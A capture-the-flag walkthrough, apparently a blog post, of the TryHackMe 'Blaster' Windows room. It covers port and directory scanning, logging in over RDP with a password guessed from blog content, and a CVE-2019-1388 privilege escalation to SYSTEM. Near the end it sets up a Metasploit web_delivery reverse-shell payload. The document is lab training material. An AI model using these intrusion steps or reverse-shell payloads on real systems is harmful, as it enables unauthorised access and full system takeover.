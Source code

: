 ```yaml
---
layout: post
title: "Blaster"
date: 2022-02-03
categories: [Tryhackme, Easy-THM]
tags: [retro, windows, redux, privesc]
image: ../../assets/img/posts/blaster.png 

---
```


## Description

A blast from the past!

|**Room**|[Blaster](https://tryhackme.com/room/blaster)|
|:---:|:---:|
|**OS**|Windows|
|**Difficulty**|Easy|
|**Creator**|[DarkStar7471](https://twitter.com/darkstar7471)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.41.77
```

![image](https://user-images.githubusercontent.com/67465230/187345834-8e5cba80-41f7-4ae4-b4aa-99e2acc7c45f.png)

we got 2 open ports. Let's scan them in detail with nmap.

```bash
nmap -sV -sC -p80,3389 10.10.41.77 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/187345862-85b94448-f5c8-4220-84cc-c7bb50d91a07.png)

Scan results describes that port 80 Microsoft IIS server and port 3389 is running rdp server. Name of the machine is RetroWeb. Let's enumerate port 80. 

Visit http://10.10.41.77/,

![image](https://user-images.githubusercontent.com/67465230/187345900-d9d3ab9b-af47-4887-9d38-b085f88daf0a.png)

We got the welcome page of Microsoft IIS Server (default page).

From here, we can actually brute force the directories,

```bash
dirsearch -u http://10.10.41.77 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -i 200,301 -o dirsearch.txt 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/187345922-5707ace0-7cb0-4743-a376-817bd62922ab.png)

dirsearch found the hidden directory named **/retro**. Let's enumerate it.

Visit http://10.10.41.77/retro/,

![image](https://user-images.githubusercontent.com/67465230/187345951-f087e040-2fa2-440d-b304-03aeba5f80e5.png)

By looking at this, I get the idea that this is kinda a blog website on retro games. There is a name Wade (might be username).

Looking around this website and I got suspicious of this blog, 

![image](https://user-images.githubusercontent.com/67465230/187345988-3810a3c1-b721-4177-a4a3-183e4a6f83c3.png)

So I followed this blog and landed on this page,

![image](https://user-images.githubusercontent.com/67465230/187346028-238cfe98-aabe-48fe-8b07-e9b487e64365.png)

Author of this blog is also the Wade then it might can be a password.

Since we know that rdp server is running then we can use `remmina` to connect to machine,

![image](https://user-images.githubusercontent.com/67465230/187346053-e21824de-efe4-4d8f-8ec1-e14c919027fe.png)


There we got interface,

![image](https://user-images.githubusercontent.com/67465230/187346081-02777cd4-df53-4e64-b0be-91b4f95cddd9.png)

and also our user flag.

 
There is hhupd.exe file, so I searched it on google,

```
CVE-2019-1388 : An elevation of privilege vulnerability exists in the Windows Certificate Dialog when it does not properly enforce user privileges, aka 'Windows Certificate Dialog Elevation of Privilege Vulnerability'.
```

The POC of this vulnerability can be found on [Windows UAC Privilege Escalation CVE-2019-1388](https://www.programmersought.com/article/13092509797/).

Run hhupd.exe as administrator,

![image](https://user-images.githubusercontent.com/67465230/187346316-64421a8b-1e66-449a-aae2-1c782f7c2f44.png)

when we try to enter the password which we don't know, then it will throw us an error. But actually, we can see "Show more details" button just before the password area. Let's click on that,

![image](https://user-images.githubusercontent.com/67465230/187346341-dde064a4-784d-46c6-a1f3-60bd65633cab.png)

it shows the program location and "show information about the publisher's certificate". Follow the link by clicking on it.

It opens up a dialogue box showing the information about certificate issuer,

![image](https://user-images.githubusercontent.com/67465230/187346382-1d001543-dcc3-459b-aa5d-0a8d5be404d6.png)

There is an "Issued By" text so I followed this link.

It opens up the Internet Explorer,

![image](https://user-images.githubusercontent.com/67465230/187348711-6edca3e7-c18b-40fc-b00f-7a290165c078.png)

but the page can't be loaded because this machine is not connected to internet.

We can save this webpage in "C:\Windows\System32\",

![image](https://user-images.githubusercontent.com/67465230/187348752-20ef14b8-a276-4154-acd1-dc97fed80707.png)

now before saving it, type *.* to save it and there after scrolling down, we can see the cmd executable. Let's run this executable.

Command prompt opens up as System32,

![image](https://user-images.githubusercontent.com/67465230/187348783-18e5216c-b1a8-43a7-9487-d6321b69202f.png)

issuing `whoami` command reveals us that we are **nt authority\system** user means we are administrator.

Navigating to C:\Users\Administrator\Desktop and listing directory content, 

![image](https://user-images.githubusercontent.com/67465230/187348809-a8fbcfb6-0daf-4584-8ae7-b8f875160153.png)

we can see the root flag.

Alternate method to exploit this vulnerability using metasploit. Boot up the metasploit and then we are using web_delivery module to exploit this vulnerability,

```bash
use exploit/multi/script/web_delivery
```

![image](https://user-images.githubusercontent.com/67465230/187348833-e8821ec3-219d-4985-914c-920886a47aec.png)

setting `options`:
- **set lhost tun0**
- **set target 2** (PSH)
- **set payload windows/meterpreter/reverse_http**

Running this module in background using `run -j` (it will run the exploit in background and when it receives connection from remote machine, it will notify us to interact with that session),

![image](https://user-images.githubusercontent.com/67465230/187350215-eb47107a-7110-4a6a-b67c-0859a38eb459.png)

after running this module, we got the powershell command. Now, copy this command and paste this on remote machine command prompt.

When this pasted command gets executed on remote machine, our payload will get delivered,

![image](https://user-images.githubusercontent.com/67465230/187350358-c2a3dade-cc47-427f-9da2-544637e50b0f.png)

and we got a meterpreter session. 

Interact with session 1,

![image](https://user-images.githubusercontent.com/67465230/187350379-07b0afdc-739c-4256-9bd5-732eb91fd90a.png)

issuing `getuid` command reveals that we are **NT AUTHORITY\SYSTEM** user.
